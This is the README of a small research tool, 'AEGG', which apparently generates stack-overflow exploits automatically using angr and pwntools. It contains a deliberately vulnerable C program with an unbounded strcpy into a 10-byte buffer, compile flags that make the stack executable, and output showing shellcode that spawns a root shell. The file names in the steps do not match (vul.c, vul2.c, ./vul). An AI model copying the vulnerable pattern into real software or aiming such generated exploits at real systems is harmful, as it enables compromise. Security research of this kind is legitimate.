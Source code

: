 AEGG
----

my automatic exploit generation


Usage
-----

1. vi `vul.c`:
    ```
    #include <stdio.h>
    #include <unistd.h>
    #include <string.h>

    char buf[100];

    int sample_func() {
        char name[10] = {0};
        read(0, buf, 307);
        strcpy(name, buf);
        printf("input: %s\n", name);
    }

    int main(void)
    {
        printf("Running...\n");
        sample_func();
        printf("Done.\n");
    }
    ```
2. complie `vul`:
    ```
    gcc vul2.c -o vul2 -m32 -g -z execstack
    ```
3. vi `my_aegg.py`:
    ```
    from aegg import AEGG

    binary = './vul'
    gg = AEGG(binary)

    # generating payload!
    gg.hack()

    print repr(gg.payloads)
    gg.save()
    ```


Result
------

```
$ python my_aegg.py
...
INFO    | 2016-06-18 00:10:11,717 | aegg.aegg | Start hacking ...
INFO    | 2016-06-17 23:44:43,872 | pwnlib.elf | Stack is executable!
[+] Started program './vul'
INFO    | 2016-06-17 23:44:46,974 | pwnlib.tubes.process | Started program './vul'
[*] Stopped program './vul'
INFO    | 2016-06-17 23:44:47,976 | pwnlib.tubes.process | Stopped program './vul'
INFO    | 2016-06-17 23:44:47,980 | aegg.aegg | Generated!
INFO    | 2016-06-17 23:44:47,980 | aegg.aegg | Completed.
$
$ (cat ./vul.exp; cat) | ./vul
Running...
input: jhh///sh/bin��1�j
                           �̀ÿ @@   @
id
uid=0(root) gid=0(root) groups=0(root)
```


Dependences
-----------

- angr
- pwntools


TODO
----

- AEGG: inputs in exploit_gen instead of paths (for fuzzing)


Reference
---------

[angr-doc/examples/insomnihack_aeg](https://github.com/angr/angr-doc/blob/master/examples/insomnihack_aeg/)

[(State of) The Art of War: Offensive Techniques in Binary Analysis](https://www.cs.ucsb.edu/~vigna/publications/2016_SP_angrSoK.pdf)

[AEG: Automatic Exploit Generation](http://repository.cmu.edu/cgi/viewcontent.cgi?article=1239&context=ece)

